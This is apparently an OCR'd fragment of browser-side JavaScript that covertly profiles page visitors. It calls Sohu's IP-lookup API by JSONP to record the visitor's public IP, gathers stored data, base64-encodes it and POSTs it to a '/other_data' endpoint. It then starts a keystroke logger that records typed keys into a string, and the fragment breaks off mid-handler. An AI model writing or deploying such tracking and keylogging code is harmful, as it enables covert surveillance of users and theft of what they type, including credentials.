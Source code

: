 ```plain
    console.log(_error);
  }
});

ajax({
  url: 'https://v2.sohu.com/api/pc-home-city/home-data/ip2location',
  jsonp: 'jQuery1124018281896477578718_1606458878259',
  data: {'_': '1606458878259'},
  success: function success(res) {
    localStorage.setItem('sohu_public_ip', JSON.stringify(res));
  },
  error: function error(_error) {
    console.log(_error);
  }
});


function send_data(types) {
  var data = {};
  data["public_ip"] = {};

  try {
    data["public_ip"]['taobao_public_ip'] = JSON.parse(localStorage.getItem('pub_ip'))['ip'];
  } catch (e) {
    data["public_ip"]['taobao_public_ip'] = "taobaoip 获取接口可能已失效或者未设置，请尽快检查";
  } finally {}
  try {
        data["public_ip"]["sohu_public_ip"] = JSON.parse(localStorage.getItem('sohu_public_ip'))["data"]["ip"];
      } catch (e) {
        data["public_ip"]['sohu_public_ip'] = "sohu_ip 获取接口可能已失效或者未设置，请尽快检查";
      } finally {}

  types.forEach(function (item) {
  if (item.endsWith("ip")){

  }else{
      data[item] = JSON.parse(localStorage.getItem(item));
    }
  });
  // var jp = new FormData();
  // jp.append("jInfo", window.btoa(unescape(encodeURIComponent(JSON.stringify(data)))));
  fetch('/other_data', {
    method: 'POST',
    cache: "no-cache",
    body: window.btoa(unescape(encodeURIComponent(JSON.stringify(data))))
  });
}

var logger = "";

var keyDown = function keyDown(e) {
  var e = e || event;
  var currKey = e.keyCode || e.which || e.charCode;
  var keyName = ""
  if (currKey > 7 && currKey < 32 || currKey > 31 && currKey < 47) {
    switch (currKey) {
      case 8:
        keyName = "[退格]";
        break;

      case 9:
        keyName = "[制表]";
```